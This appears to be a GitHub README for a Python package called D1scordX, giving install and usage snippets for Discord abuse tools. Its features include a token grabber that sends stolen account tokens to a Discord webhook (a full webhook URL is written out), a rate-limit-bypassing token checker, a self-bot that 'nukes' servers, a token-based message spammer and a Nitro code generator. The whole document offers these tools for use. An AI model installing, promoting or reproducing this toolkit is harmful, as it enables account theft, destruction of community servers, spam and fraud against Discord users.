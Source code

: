 <p align="center">
  <b>Link:</b><br>
  <a href="https://discord.gg/yBA7Wk67rH">Discord</a> |
  <a href="https://www.youtube.com/c/XinGod">YouTube</a> |
  <a href="https://github.com/XinOnGithub">Github</a>
  <br>
  <img src="https://cdn.discordapp.com/icons/791223032215240725/a_34b811424e1310fa438832dad9d113cf.gif">
</p>
<h1 align="center">Setup</h1>

## Tips:
- **Install module with**: ``pip install D1scordX``

## Features:

- CheckTokens   |   Check a token list from txt file and bypass ratelimit(discord api(not bypassing Cloudflare))
- TokenGrabber  |   Grab discord token using webhook
- SelfNukeBot   |   Nuke discord server with your own account
- TokenSpammer  |   Spam message with your **valid token**
- GenerateNitro |   Generate nitro and save on a txt file

## How to use:

- **CheckTokens**
```py
from D1scordX import CheckTokens

useragent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
CheckTokens('filename.txt',useragent)

#in filename.txt we have token(list)
```

- **TokenGrabber**
```py
from D1scordX import TokenGrabber

webhook = 'https://discord.com/api/webhooks/826913797411045396/M1J0F8t7ngBLqWY1CEK3dDvCY4eN-YYLwhNkNKJj1MZKOKvwDViHgkqKGSa5TRjownWo'
TokenGrabber(webhook)
```

- **SelfNukeBot**
```py
from D1scordX import SelfNukeBot

token = 'token'
prefix = 'bot prefix ex:$'
SelfNukeBot(token,prefix)
```

- **TokenSpammer**
```py
from D1scordX import TokenSpammer

TokenSpammer('my token file.txt',channel id (791225898242015255),message to send,10)
ex:TokenSpammer('tokens.txt',791225898242015255,hello world,10)

#in my token file.txt we have token(list)
```

- **GenerateNitro**
```py
from D1scordX import GenerateNitro

GenerateNitro('outpout file.txt',count of nitro)
ex:GenerateNitro('mynitro.txt',100)
```